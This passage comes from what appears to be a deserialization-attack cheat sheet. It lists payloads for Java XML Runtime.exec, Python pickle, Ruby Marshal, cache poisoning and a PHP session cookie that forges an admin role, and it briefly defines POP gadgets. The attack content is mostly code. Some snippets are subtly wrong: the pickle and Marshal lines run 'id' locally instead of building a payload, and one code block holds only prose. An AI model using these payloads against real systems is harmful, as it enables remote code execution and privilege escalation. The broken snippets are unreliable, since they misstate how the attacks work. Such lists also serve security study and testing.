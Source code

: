 ```xml
<object class="java.lang.Runtime">
  <method>getRuntime().exec("calc.exe")</method>
</object>
```

---

**8. Python Pickle RCE**  
Exploit unsafe `pickle.loads()` usage.

```python
import pickle, os
payload = pickle.dumps(os.system('id'))
```

---

**9. Ruby Marshal RCE**  
Exploit unsafe `Marshal.load()` usage.

```ruby
Marshal.dump(`id`)
```

---

**10. Cache Poisoning via Deserialization**  
Inject serialized blob into Redis/Memcached.

```java
// Poisoned object stored under known key
Retrieval triggers deserialization and execution
```

---

**11. Cookie-Based Deserialization**  
Embed serialized object in session or JWT cookie.

```php
// Encoded session cookie
O:8:"Exploit":1:{s:4:"role";s:5:"admin";}
```

## POP Gadgets

> A POP (Property Oriented Programming) gadget is a piece of code implemented by an application's class, that can be called during the deserialization process.

POP gadgets characteristics:

* Can be serialized
* Has public/accessible properties
* Implements specific vulnerable methods
* Has access to other "callable" classes

## Labs
